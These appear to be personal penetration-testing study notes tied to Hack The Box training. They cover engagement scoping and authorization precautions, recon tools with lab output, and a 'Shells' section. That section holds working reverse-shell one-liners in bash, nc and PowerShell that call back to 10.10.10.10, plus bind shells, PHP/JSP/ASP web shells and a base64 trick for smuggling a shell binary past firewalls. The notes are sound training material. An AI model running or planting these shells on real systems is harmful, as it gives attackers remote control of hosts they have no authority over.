

## Penetration Testing Overview
A Penetration Test (Pentest) is an organized, targeted, and authorized attack attempt to test IT infrastructure and its defenders to determine their susceptibility to IT security vulnerabilities. 

### Precautionary Measures
- Obtain written consent from the owner or authorized representative of the computer or network being tested
- Conduct the testing within the scope of the consent obtained only and respect any limitations specified
- Take measures to prevent causing damage to the systems or networks being tested
- Do not access, use or disclose personal data or any other information obtained during the testing without permission
- Do not intercept electronic communications without the consent of one of the parties to the communication
- Do not conduct testing on systems or networks that are covered by the Health Insurance Portability and Accountability Act (HIPAA) without proper authorization

### Pre-Engagement Documents
| Document | Timing for Creation |
|----------|---------------------|
| 1. Non-Disclosure Agreement (NDA) | After Initial Contact |
| 2. Scoping Questionnaire | Before the Pre-Engagement Meeting |
| 3. Scoping Document | During the Pre-Engagement Meeting |
| 4. Penetration Testing Proposal (Contract/Scope of Work (SoW)) | During the Pre-engagement Meeting |
| 5. Rules of Engagement (RoE) | Before the Kick-Off Meeting |
| 6. Contractors Agreement (Physical Assessments) | Before the Kick-Off Meeting |
| 7. Reports | During and after the conducted Penetration Test |

### Critical Scoping Questions
- How many expected live hosts?	
- How many IPs/CIDR ranges in scope?	
- How many Domains/Subdomains are in scope?	
- How many wireless SSIDs in scope?	
- How many web/mobile applications? If testing is authenticated, how many roles (standard user, admin, etc.)?	
- For a phishing assessment, how many users will be targeted? Will the client provide a list, or we will be required to gather this list via OSINT?	
- If the client is requesting a Physical Assessment, how many locations? If multiple sites are in-scope, are they geographically dispersed?	
- What is the objective of the Red Team Assessment? Are any activities (such as phishing or physical security attacks) out of scope?	
- Is a separate Active Directory Security Assessment desired?	
- Will network testing be conducted from an anonymous user on the network or a standard domain user?	
- Do we need to bypass Network Access Control (NAC)?

### Types of Penetration Testing
|Type | Information Provided |
|-----|----------------------|
|Blackbox | Minimal. Only the essential information, such as IP addresses and domains, is provided.|
|Greybox | Extended. In this case, we are provided with additional information, such as specific URLs, hostnames, subnets, and similar.|
|Whitebox | Maximum. Here everything is disclosed to us. This gives us an internal view of the entire structure, which allows us to prepare an attack using internal information. We may be given detailed configurations, admin credentials, web application source code, etc.|
|Red-Teaming | May include physical testing and social engineering, among other things. Can be combined with any of the above types.|
|Purple-Teaming | It can be combined with any of the above types. However, it focuses on working closely with the defenders.|

### Penetration Testing Stages

|Stage | Description|
|------|------------|
|1. Pre-Engagement | The first step is to create all the necessary documents in the pre-engagement phase, discuss the assessment objectives, and clarify any questions.|
|2. Information Gathering | Once the pre-engagement activities are complete, we investigate the company's existing website we have been assigned to assess. We identify the technologies in use and learn how the web application functions.|
|3. Vulnerability Assessment | With this information, we can look for known vulnerabilities and investigate questionable features that may allow for unintended actions.|
|4. Exploitation | Once we have found potential vulnerabilities, we prepare our exploit code, tools, and environment and test the webserver for these potential vulnerabilities.|
|5. Post-Exploitation | Once we have successfully exploited the target, we jump into information gathering and examine the webserver from the inside. If we find sensitive information during this stage, we try to escalate our privileges (depending on the system and configurations).|
|6. Lateral Movement | If other servers and hosts in the internal network are in scope, we then try to move through the network and access other hosts and servers using the information we have gathered.|
|7. Proof-of-Concept | We create a proof-of-concept that proves that these vulnerabilities exist and potentially even automate the individual steps that trigger these vulnerabilities.|
|8. Post-Engagement | Finally, the documentation is completed and presented to our client as a formal report deliverable. Afterward, we may hold a report walkthrough meeting to clarify anything about our testing or results and provide any needed support to personnel tasked with remediating our findings.|

### Vulnerability Analysis Types
| Analysis Type | Description | 
|---------------|-------------|
| Descriptive | Descriptive analysis is essential in any data analysis. On the one hand, it describes a data set based on individual characteristics. It helps to detect possible errors in data collection or outliers in the data set. | 
| Diagnostic | Diagnostic analysis clarifies conditions' causes, effects, and interactions. Doing so provides insights that are obtained through correlations and interpretation. We must take a backward-looking view, similar to descriptive analysis, with the subtle difference that we try to find reasons for events and developments. | 
| Predictive | By evaluating historical and current data, predictive analysis creates a predictive model for future probabilities. Based on the results of descriptive and diagnostic analyses, this method of data analysis makes it possible to identify trends, detect deviations from expected values at an early stage, and predict future occurrences as accurately as possible. | 
| Prescriptive | Prescriptive analytics aims to narrow down what actions to take to eliminate or prevent a future problem or trigger a specific activity or process. | 


### Common Vulnerabilities and Exposures (CVEs) Research
- [CVEdetails](https://www.cvedetails.com/)
- [Exploit DB](https://www.exploit-db.com/)
- [Vulners](https://vulners.com/)
- [Packet Storm Security](https://packetstormsecurity.com/)
- [NIST](https://nvd.nist.gov/vuln/search?execution=e2s1)


### Practicing Steps
- 2x Modules (one technical, one offensive)
    1.	Read the module
    2.	Practice the exercises
    3.	Complete the module
    4.	Start the module exercises from scratch
    5.	While solving the exercises again, take notes
    6.	Create technical documentation based on the notes
    7.	Create non-technical documentation based on the notes
- 3x Retired Machines (two easy, one medium)
    1.	Get the user flag on your own
    2.	Get the root flag on your own
    3.	Write your technical documentation
    4.	Write your non-technical documentation
    5.	Compare your notes with the official write-up (or a community write-up if you don't have a VIP subscription
    6.	Create a list of information you have missed
    7.	Watch Ippsec's walkthrough and compare it with your notes
    8.	Expand your notes and documentation by adding the missed parts
- 5x Active Machines (two easy, two medium, one hard)
    1.	Get the user and root flag
    2.	Write your technical documentation
    3.	Write your non-technical documentation
    4.	Have it proofread by technical and non-technical persons
- 1x Pro Lab / Endgame

[Link of Completion](https://academy.hackthebox.com/achievement/713396/90)


## Getting Started
- `CIA triad`: "confidentiality, integrity, and availability of data"
- A `hypervisor` is software that allows us to create and run virtual machines (VMs).
- The `ISO` file is essentially just a CD-ROM that can be mounted within our hypervisor of choice to build the VM by installing the operating system ourselves. An `ISO` gives us more room for customization, e.g., keyboard layout, locale, desktop environment switch, custom partitioning, etc., and therefore a more granular approach when setting up our attack VM.
- The `OVA` file is a pre-built virtual appliance that contains an OVF XML file that specifies the VM hardware settings and a `VMDK`, which is the virtual disk that the operating system is installed on. An OVA is pre-built and therefore can be rapidly deployed to get up and running quicker.
- A `virtual private network (VPN)` allows us to connect to a private (internal) network and access hosts and resources as if we were directly connected to the target private network. It is a secured communications channel over shared public networks to connect to a private network (i.e., an employee remotely connecting to their company's corporate network from their home). VPNs provide a degree of privacy and security by encrypting communications over the channel to prevent eavesdropping and access to data traversing the channel.
    - `netstat -rn` will show us the networks accessible via the VPN.

### Common Ports
| Port(s) | Protocol |
|---------|----------|
| 20/21 (TCP) | FTP |
| 22 (TCP) | SSH |
| 23 (TCP) | Telnet |
| 25 (TCP) | SMTP |
| 80 (TCP) | HTTP |
| 161 (TCP/UDP) | SNMP |
| 389 (TCP/UDP) | LDAP |
| 443 (TCP) | SSL/TLS (HTTPS) |
| 445 (TCP)	 | SMB |
| 3389 (TCP) | RDP |

### Tools
- `Secure Shell (SSH)` is a network protocol that runs on port 22 by default and provides users such as system administrators a secure way to access a computer remotely. 
- `Netcat`, `ncat`, or `nc`, is an excellent network utility for interacting with TCP/UDP ports. There's another Windows alternative to netcat coded in PowerShell called [`PowerCat`](https://github.com/besimorhino/powercat).
- Another similar network utility is [`socat`](https://linux.die.net/man/1/socat), which has a few features that netcat does not support, like forwarding ports and connecting to serial devices. Socat can also be used to upgrade a shell to a [fully interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat).
- Terminal multiplexers, like `tmux` or `Screen`, are great utilities for expanding a standard Linux terminal's features, like having multiple windows within one terminal and jumping between them. 
- `Vim` is a great text editor that can be used for writing code or editing text files on Linux systems.
-`nmap` for network enumeration and vulnerability scanning.
    - `nmap -sV --script=banner -p<port> <host(s)>` and `nc -nv <host> <port>`can be used for `Banner Grabbing`
- A tool that can enumerate and interact with SMB shares is `smbclient`.
- SNMP Community strings provide information and statistics about a router or device, helping us gain access to it. The manufacturer default community strings of public and private are often unchanged. In SNMP versions 1 and 2c, access is controlled using a plaintext community string, and if we know the name, we can gain access to it. Encryption and authentication were only added in SNMP version 3. Much information can be gained from SNMP. Examination of process parameters might reveal credentials passed on the command line, which might be possible to reuse for other externally accessible services given the prevalence of password reuse in enterprise environments. Routing information, services bound to additional interfaces, and the version of installed software can also be revealed.
```sh
woadey@htb[/htb]$ snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0

iso.3.6.1.2.1.1.5.0 = STRING: "gs-svcscan"

woadey@htb[/htb]$ snmpwalk -v 2c -c private  10.129.42.253 

Timeout: No Response from 10.129.42.253
```
- A tool such as [`onesixtyone`](https://github.com/trailofbits/onesixtyone) can be used to brute force the community string names using a dictionary file of common community strings such as the dict.txt file included in the GitHub repo for the tool.
```sh
woadey@htb[/htb]$ onesixtyone -c dict.txt 10.129.42.254

Scanning 1 hosts, 51 communities
10.129.42.254 [public] Linux gs-svcscan 5.4.0-66-generic #74-Ubuntu SMP Wed Jan 27 22:54:38 UTC 2021 x86_64
```
- We can use a tool such as [`ffuf`](https://github.com/ffuf/ffuf) or [`GoBuster`](https://github.com/OJ/gobuster) to perform this directory enumeration.
```sh
woadey@htb[/htb]$ gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.121/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/11 21:47:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.php (Status: 200)
/server-status (Status: 403)
/wordpress (Status: 301)
===============================================================
2020/12/11 21:47:46 Finished
===============================================================
```
- We can use `cURL` to retrieve server header information from the command line. `cURL` can also pull down files.
```sh
woadey@htb[/htb]$ curl -IL https://www.inlanefreight.com

HTTP/1.1 200 OK
Date: Fri, 18 Dec 2020 22:24:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Link: <https://www.inlanefreight.com/index.php/wp-json/>; rel="https://api.w.org/"
Link: <https://www.inlanefreight.com/>; rel=shortlink
Content-Type: text/html; charset=UTF-8

woadey@htb[/htb]$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```
- Another handy tool is [`EyeWitness`](https://github.com/FortyNorthSecurity/EyeWitness), which can be used to take screenshots of target web applications, fingerprint them, and identify possible default credentials.
- We can extract the version of web servers, supporting frameworks, and applications using the command-line tool `whatweb`.
```sh
woadey@htb[/htb]$ whatweb 10.10.10.121

http://10.10.10.121 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[license@php.net], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.121], Title[PHP 7.4.3 - phpinfo()]

woadey@htb[/htb]$ whatweb --no-errors 10.10.10.0/24

http://10.10.10.11 [200 OK] Country[RESERVED][ZZ], HTTPServer[nginx/1.14.1], IP[10.10.10.11], PoweredBy[Red,nginx], Title[Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux], nginx[1.14.1]
http://10.10.10.100 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.100], Title[File Sharing Service]
http://10.10.10.121 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[license@php.net], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.121], Title[PHP 7.4.3 - phpinfo()]
http://10.10.10.247 [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[contact@cross-fit.htb], Frame, HTML5, HTTPServer[OpenBSD httpd], IP[10.10.10.247], JQuery[3.3.1], PHP[7.4.12], Script, Title[Fine Wines], X-Powered-By[PHP/7.4.12], X-UA-Compatible[ie=edge]
```
- One method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host.

```sh
woadey@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```
- In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to `base64` encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it.

```sh
woadey@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

```sh
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

### Shells
- A `Reverse Shell` is the most common type of shell, as it is the quickest and easiest method to obtain control over a compromised host. [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) has many reverse shell payloads:

__Linux Victim__
```sh
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
...or...
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

__Windows Victim__
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()" 
```
- Another type of shell is a `Bind Shell`. Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port. Once we execute a Bind Shell Command, it will start listening on a port on the remote host and bind that host's shell, i.e., Bash or PowerShell, to that port. We have to connect to that port with netcat, and we will get control through a shell on that system. [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) again has payloads for this. 

__Linux Victim__
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
...or...
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

__Windows Victim__
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
- The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.

__php__
```php
<?php system($_REQUEST["cmd"]); ?>
```
__jsp__
```php
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
__asp__
```php
<% eval request("cmd") %>
```

### PrivEsc Checklists
Once we gain initial access to a box, we want to thoroughly enumerate the box to find any potential vulnerabilities we can exploit to achieve a higher privilege level. We can find many checklists and cheat sheets online that have a collection of checks we can run and the commands to run these checks. One excellent resource is [HackTricks](https://book.hacktricks.xyz/), which has an excellent checklist for both [Linux](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) and [Windows](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation) local privilege escalation. Another excellent repository is [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), which also has checklists for both [Linux](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and [Windows](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md). We must start experimenting with various commands and techniques and get familiar with them to understand multiple weaknesses that can lead to escalating our privileges.

### Enumeration Scripts
Many of the above commands may be automatically run with a script to go through the report and look for any weaknesses. We can run many scripts to automatically enumerate the server by running common commands that return any interesting findings. Some of the common Linux enumeration scripts include [LinEnum](https://github.com/rebootuser/LinEnum.git) and [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker), and for Windows include [Seatbelt](https://github.com/GhostPack/Seatbelt) and [JAWS](https://github.com/411Hall/JAWS).

Another useful tool we may use for server enumeration is the [Privilege Escalation Awesome Scripts SUITE (PEASS)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), as it is well maintained to remain up to date and includes scripts for enumerating both Linux and Windows.

[GTFOBins](https://gtfobins.github.io/) contains a list of commands and how they can be exploited through `sudo`

[LOLBAS](https://lolbas-project.github.io/#) also contains a list of Windows applications which we may be able to leverage to perform certain functions, like downloading files or executing commands in the context of a privileged user.

### Practice Resources

|Platform | Description|
|----------|----------|
| [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)	| Is a modern vulnerable web application written in Node.js, Express, and Angular which showcases the entire [OWASP Top Ten](https://owasp.org/www-project-top-ten) along with many other real-world application security flaws. |
| [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/)	| Is a purposefully vulnerable Ubuntu Linux VM that can be used to practice enumeration, automated, and manual exploitation. |
| [Metasploitable 3](https://github.com/rapid7/metasploitable3)	| Is a template for building a vulnerable Windows VM configured with a wide range of [vulnerabilities](https://github.com/rapid7/metasploitable3/wiki/Vulnerabilities). |
| [DVWA](https://github.com/digininja/DVWA)	| This is a vulnerable PHP/MySQL web application showcasing many common web application vulnerabilities with varying degrees of difficulty. |
| [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) | Provides an extremely in-depth walkthrough of every retired HTB box packed full of insight from his own experience, as well as videos on various techniques. |
| [VbScrub](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ) | Provides HTB videos as well as videos on techniques, primarily focusing on Active Directory exploitation. |
| [STÖK](https://www.youtube.com/channel/UCQN2DsjnYH60SFBIA6IkNwg) | Provides videos on various infosec related topics, mainly focusing on bug bounties and web application penetration testing. |
| [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w) | Provides videos on a wide variety of technical infosec topics. |

### First Attack

For an entire write-up of this box, see [HTB Writeup: Nibbles](/posts/htb/easy/nibbles). 